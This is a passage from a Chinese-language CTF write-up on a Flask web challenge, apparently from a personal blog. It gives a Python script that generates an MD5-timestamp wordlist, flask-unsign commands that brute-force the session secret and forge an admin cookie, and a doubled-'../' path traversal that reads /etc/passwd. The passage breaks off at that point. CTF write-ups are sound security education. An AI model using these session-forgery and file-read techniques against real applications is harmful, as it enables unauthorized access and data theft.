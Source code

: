 注册一个 admin 用户（竟然让注册）

登陆后提示 md5 &#43; 时间戳 生成了 SECRET

![image-20250126002940921](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67951175a0760.png)

结合 Cookie 中的 jwt ，推测是 jwt 的 secretkey

#### 0x01 session 伪造

虽然允许注册 admin 用户，但是还是伪造一下 session 吧，wp 看到是非预期

之前用的是 flask-session-cookie-manager ，不能爆破， 官方 wp 给出 flask-unsign ，工具&#43;&#43;

生成字典

```python
import time
import hashlib

wordlist = []
timestamp = int(time.time())
for i in range(timestamp - 1000000, timestamp &#43; 1000000):
    wordlist.append(hashlib.md5(str(i).encode()).hexdigest())

with open(&#34;/home/mingzu/CTF/wordlist.txt&#34;, &#34;w&#34;) as f:
    for word in wordlist:
        f.write(word &#43; &#34;\n&#34;)
```

```bash
&gt; flask-unsign -u -c &#34;eyJ1c2VybmFtZSI6Im1pbmd6dSJ9.Z5UV3g.v4iJ--zejF0WE-AetwuuqaYPy-A&#34; --wordlist wordlist.txt --no-literal-eval
[*] Session decodes to: {&#39;username&#39;: &#39;mingzu&#39;}
[*] Starting brute-forcer with 8 threads..
[&#43;] Found secret key after 996480 attempts2acb53068c17
b&#39;c78e2cbce1051488f1f616939660a68d&#39;
```

爆破出 secret ，伪造 session

```bash
&gt; flask-unsign -s -c &#34;{&#39;username&#39;: &#39;admin&#39;}&#34; --secret &#39;c78e2cbce1051488f1f616939660a68d&#39;
eyJ1c2VybmFtZSI6ImFkbWluIn0.Z5UfEw.PWO_FglQqS-u7lTOfsl_BCMEzeE
```

#### 0x02 获取源码

点开 article ，`GET /article?file=` 的形式感觉是文件包含，读 `articles/../articles/article1.txt`  提示文件未找到，尝试双写绕过，路径正确

![image-20250126003414160](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/67951286e540b.png)

读 `/etc/passwd` 确定相对路径

![image-20250126003721334](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/26/6795134240df1.png)
